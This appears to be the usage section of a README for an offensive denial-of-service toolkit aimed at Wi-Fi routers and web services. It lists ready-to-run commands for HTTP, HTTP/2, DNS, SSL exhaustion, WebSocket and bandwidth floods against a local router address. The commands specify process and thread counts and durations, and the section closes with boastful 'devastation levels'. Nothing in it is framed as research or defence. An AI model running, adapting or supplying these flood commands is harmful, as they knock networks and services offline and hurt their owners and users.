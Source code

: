 ## 🚀 **USAGE EXAMPLES**

### **1. Quick Devastation**
```bash
./ultra_destroyer.sh
# Select option 10 for quick auto-devastation
```

### **2. Ultra HTTP Devastation**
```bash
python3 wifi_ultra_noroot.py --ultra-http -t http://192.168.1.1 --processes 8 --threads 200 --duration 300
```

### **3. Ultra Multi-Devastation (ALL ATTACKS)**
```bash
python3 wifi_ultra_noroot.py --ultra-multi --duration 300
```

### **4. Specific Attack Examples**

#### **HTTP/2 Flood**
```bash
python3 wifi_ultra_noroot.py --http2-flood -t https://192.168.1.1 --connections 2000 --duration 180
```

#### **DNS Devastation**
```bash
python3 wifi_ultra_noroot.py --ultra-dns --processes 12 --duration 240
```

#### **SSL Exhaustion**
```bash
python3 wifi_ultra_noroot.py --ssl-exhaustion -t 192.168.1.1 -p 443 --connections 3000 --duration 300
```

#### **WebSocket Flood**
```bash
python3 wifi_ultra_noroot.py --websocket-flood -t ws://192.168.1.1/ws --connections 1500 --duration 180
```

#### **Bandwidth Devastation**
```bash
python3 wifi_ultra_noroot.py --bandwidth-devastation -t http://192.168.1.1 --processes 16 --duration 240
```

## 💀 **DEVASTATION LEVELS**

### **Level 1: Light Devastation**
- 2 processes, 50 threads each
- ~10,000 RPS
- Suitable for weak targets
